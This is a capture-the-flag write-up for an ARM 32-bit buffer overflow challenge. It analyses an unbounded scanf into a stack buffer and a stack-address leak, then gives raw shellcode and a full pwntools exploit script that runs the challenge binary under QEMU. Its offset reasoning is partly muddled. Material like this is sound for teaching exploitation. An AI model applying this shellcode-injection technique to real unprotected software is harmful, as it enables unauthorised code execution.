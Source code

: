 # ARM Buffer Overflow Exploitation

## Challenge Overview
**Challenge Name**: ARM Memory Dumper  
**Category**: Binary Exploitation / Pwn  
**Architecture**: ARM 32-bit  
**Difficulty**: Medium  
**Protections**: None (no PIE, no stack canary, no NX)  

## Vulnerability Analysis

### Source Code Review
The vulnerable C program contains a classic buffer overflow vulnerability:

```c
char s[168]; // 168-byte buffer on stack
// ...
scanf(" %[^\n]s", s); // NO BOUNDS CHECKING!
```

**Key Issues:**
1. **Unbounded Input**: `scanf(" %[^\n]s", s)` reads unlimited input until newline
2. **No Length Validation**: No check to ensure input fits in 168-byte buffer
3. **Stack Allocation**: Buffer `s` is allocated on the stack with fixed size

### Memory Layout
```
Stack Layout:
[sp+8h]  s[168]     - Input buffer (168 bytes)
[sp+7h]  v7         - 1 byte variable  
[bp+0h]  Saved BP   - 4 bytes
[bp+4h]  Return Address - 4 bytes (EXPLOITATION TARGET)
```

**Total overflow distance**: 168 (buffer) + 1 (v7) + 4 (saved BP) = 173 bytes to reach return address

but this is not the correct offset we will discouss later on

## Exploitation Strategy

### Information Leak
The program helpfully leaks stack addresses:
```c
_printf_chk(1, "%p: ", v4); // Leaks stack address!
```
This allows us to bypass ASLR (if enabled) by leaking a stack address to calculate shellcode location.

### Shellcode Placement
Since **NX is disabled**, we can execute shellcode directly on the stack. Our strategy:
1. Overflow the buffer with our shellcode
2. Overwrite the return address with the leaked stack address
3. Execute shellcode that runs `cat flag.txt`

## Exploit Development

### Shellcode

we will use this shellcode

```python
# Generated shellcode for execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x00\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41'
```


### Offset Calculation
Through testing, we determined the exact offset:
- **Buffer**: 168 bytes
- **v7 variable**: 1 byte  
- **Padding**: 4 bytes
- **Total**: 173 bytes to reach return address

![no](./img/no.png)

During exploitation, we discovered that while the theoretical offset to reach the return address was 173 bytes (168-byte buffer + 1-byte v7 variable + 4-byte saved BP), the practical working offset was determined to be 164 bytes through empirical testing. This discrepancy occurred due to ARM-specific stack frame alignment requirements and the interaction between the shellcode execution environment and the program's stack layout.


![yes](./img/yes.png)

### Final Exploit Code
```python
#!/usr/bin/env python3
from pwn import *
import struct
import time

def send(p, msg):
    try:
        p.send(msg)
        time.sleep(2)
        return p.recv(1024).decode()
    except:
        return ''

# Generated shellcode for execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x00\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41'
offset = 164  # Adjusted offset accounting for shellcode behavior

print('[!] Shellcode length: {}'.format(len(shellcode)))

# Start ARM binary using QEMU
p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi', './chall'])
time.sleep(2)

# Wait for initial prompt
resp = p.recv(1024)
if 'Give me data to dump' not in resp.decode():
    print('[-] Failed to get initial message')
    exit(1)
print('[+] Communication started')

# Step 1: Leak stack address
resp = send(p, b'A\n')
if 'Dump again' not in resp:
    print('[-] Failed to leak address')
    exit(1)

# Extract stack address from dump output
stack = resp.split(':')[0]
print('[+] Stack address: {}'.format(stack))

# Continue to next input
resp = send(p, b'y\n')
if 'Give me data to dump' not in resp:
    print('[-] Failed to continue')
    exit(1)

# Step 2: Build and send exploit payload
stack_addr = struct.pack('I', int(stack, 16))
payload = shellcode + b'A' * (offset - len(shellcode)) + stack_addr + b'\n'

resp = send(p, payload)
if 'Dump again' not in resp:
    print('[-] Failed to send shellcode')
    exit(1)
print('[+] Shellcode sent')

# Step 3: Trigger the exploit
resp = send(p, b'n\n')
print('[+] Output: {}'.format(resp.strip()))

p.close()
```

![result](./img/result.png)


